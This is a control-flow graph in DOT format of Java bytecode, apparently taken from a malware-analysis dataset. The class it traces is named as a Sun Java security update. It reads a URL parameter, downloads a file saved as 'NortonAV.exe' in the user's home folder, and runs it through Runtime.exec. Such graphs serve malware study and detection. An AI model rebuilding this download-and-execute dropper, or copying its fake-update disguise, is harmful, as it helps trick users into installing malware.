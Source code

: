 digraph "" {
    "r0 := @this: Sun_Microsystems_Java_Security_Update_6"
    "push \"user.home\""
    "r0 := @this: Sun_Microsystems_Java_Security_Update_6"->"push \"user.home\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"user.home\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "push \"\\NortonAV.exe\""
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"push \"\\NortonAV.exe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"\\NortonAV.exe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r2";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r2"->"staticget <java.lang.System: java.io.PrintStream out>";
    "load.r r2"
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r2";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "load.r r0"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"file\""
    "load.r r0"->"push \"file\"";
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: java.lang.String getParameter(java.lang.String)>"
    "push \"file\""->"virtualinvoke <Sun_Microsystems_Java_Security_Update_6: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: java.lang.String getParameter(java.lang.String)>"->"load.r r2";
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void download(java.lang.String,java.lang.String)>"
    "load.r r2"->"virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void download(java.lang.String,java.lang.String)>";
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void download(java.lang.String,java.lang.String)>"->"load.r r0";
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void ExecuteFile()>"
    "load.r r0"->"virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void ExecuteFile()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void ExecuteFile()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r0"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r2";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
}

